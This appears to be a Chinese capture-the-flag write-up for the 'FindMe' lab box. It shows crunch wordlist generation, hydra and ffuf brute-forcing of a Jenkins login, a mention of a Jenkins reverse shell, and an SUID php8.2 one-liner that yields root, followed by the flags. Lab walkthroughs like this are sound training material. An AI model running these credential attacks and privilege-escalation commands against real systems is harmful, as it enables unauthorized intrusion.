 # FindMe

2025.03.05 https://thehackerslabs.com/find-me/

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

ftp 可匿名，读取 ayuda.txt , 提示用户名 geralt ，jenkins 的密码包含 5 个字符，以 p 开头，以 a 结尾。

访问 80web 上无信息，8080 web 显示 jenkins，根据上面提示生成密码，爆破（注意要加 C=/login，否则没有 cookie 爆破一直不成功）：

```
crunch 5 5 -t p@@@a -o pass.txt
crunch 5 5 -f /usr/share/crunch/charset.lst mixalpha-numeric -t p@@@a -o pass.txt  # 这个密码字典更大更全，先用上面的小写字母生成，爆不出来再用这个
```

```
hydra -l geralt -P pass 192.168.5.40 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=:C=/login:F=Invalid username or password" -f
[8080][http-post-form] host: 192.168.5.40   login: geralt   password: panda
```

或者使用 ffuf 进行爆破：

```
ffuf -t 100 -c -X POST -w pass -u http://192.168.5.40:8080/j_spring_security_check -H 'Content-Type: application/x-www-form-urlencoded' -d 'j_username=geralt&j_password=FUZZ&from=%2F&Submit=' -fr 'loginError'
```

先将请求用 BP 拦截，保存到文件中 req.txt：

```
POST /j_spring_security_check HTTP/1.1
Host: 192.168.5.40:8080
Content-Length: 42
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.5.40:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.5.40:8080/login?from=%2F
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID.2665f1e3=node01pmqddxyq7z2w1ubxf6ku9eroy169554.node0
Connection: close

j_username=geralt&j_password=FUZZ&from=%2F&Submit=
```

然后进行爆破，同样可以得到账户的密码：

```
ffuf -ac -request req.txt -request-proto http -w pass -t 100
ffuf -c -request req.txt -request-proto http -w pass -t 100 -fr 'loginError'
或
ffuf -c -request req.txt -request-proto http -w pass -t 100 -fr '.*loginError.*'
```

爆出密码 panda，登陆 jenkins。创建 item，执行反弹 shell 到 kali 上：

```
jenkins@find-me:~/workspace/shell$ id
id
uid=104(jenkins) gid=110(jenkins) grupos=110(jenkins)
```

发现 suid /usr/bin/php8.2

```
/usr/bin/php8.2 -r "posix_setuid(0); system('/bin/bash');"
```

直接拿到 root 权限，获得 flag：

```
root@find-me:/home/geralt# cat user.txt
be336806b564e9fd7812aef123f80b7b
root@find-me:/home/geralt# cat /root/root.txt
71b5a461e7df11a40f29c707a8b1b05f
```
